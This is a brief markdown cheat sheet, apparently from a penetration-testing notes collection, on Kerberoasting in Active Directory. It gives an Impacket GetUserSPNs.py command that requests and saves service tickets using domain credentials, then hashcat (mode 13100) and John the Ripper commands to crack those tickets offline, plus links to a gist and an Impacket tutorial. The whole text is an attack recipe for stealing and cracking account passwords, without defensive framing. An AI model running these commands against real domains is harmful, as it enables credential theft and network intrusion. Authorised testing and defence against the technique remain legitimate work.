 ## Kerberos ticket generation and crack password Using Impacket module

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

```
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

Cracking password

```
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

Impacket tool reference
https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/
